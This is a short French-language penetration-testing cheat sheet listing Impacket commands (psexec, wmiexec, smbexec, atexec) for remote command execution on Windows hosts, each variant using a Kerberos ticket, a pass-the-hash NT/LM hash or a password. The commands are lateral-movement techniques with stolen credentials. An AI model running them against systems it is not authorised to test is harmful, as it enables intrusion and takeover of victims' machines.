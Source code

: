 ### PsExec
#### Avec un TGS

```bash
export KRB5CCNAME=truc.ccache
impacket-psexec -k -no-pass $domain/$user@$target
```

#### Avec un hash

```bash
impacket-psexec $domain/$user@$target -hashes nt:lm
```

#### Avec password

```bash
impacket-psexec $domain/$user@$target
```

---
### WmiExec

#### Avec un TGS

```bash
export KRB5CCNAME=truc.ccache
impacket-wmiexec -k -no-pass $domain/$user@$target
```

#### Avec un hash

```bash
impacket-wmiexec $domain/$user@$target -hashes nt:lm
```

#### Avec password

```bash
impacket-wmiexec $domain/$user@$target
```

---
### SmbExec

#### Avec un TGS

```bash
export KRB5CCNAME=truc.ccache
impacket-smbexec -k -no-pass $domain/$user@$target
```

#### Avec un hash

```bash
impacket-smbexec $domain/$user@$target -hashes nt:lm
```

#### Avec password

```bash
impacket-smbexec $domain/$user@$target
```

---
### AtExec

#### Avec un TGS

```bash
export KRB5CCNAME=truc.ccache
impacket-atexec -k -no-pass $domain/$user@$target $command
```

#### Avec un hash

```bash
impacket-atexec $domain/$user@$target -hashes nt:lm $command
```

#### Avec password

```bash
impacket-atexec $domain/$user@$target $command
```

